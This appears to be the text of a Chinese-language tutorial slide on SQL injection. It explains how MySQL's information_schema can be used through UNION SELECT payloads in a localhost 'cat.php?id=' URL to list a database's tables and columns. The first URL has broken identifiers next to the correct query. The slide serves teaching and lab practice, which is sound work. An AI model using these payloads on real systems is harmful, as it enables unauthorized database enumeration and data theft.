

SQL注入和利用
利用返回的meta-information构建最终请求:
从MySQL版本5开始，MySQL提供关于数据库、表、列的meta-information，这些信息储存在information_schema数据库里
the list of tables:
http://localhost/cat.php?id=1%20UNION%20SELECT%201,tablename,3,4%20FROM%20informationschema.tables 1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables
the list of columns:
http://localhost/cat.php?id=1%20UNION%20SELECT%201,column_name,3,4%20FROM%20information_schema.columns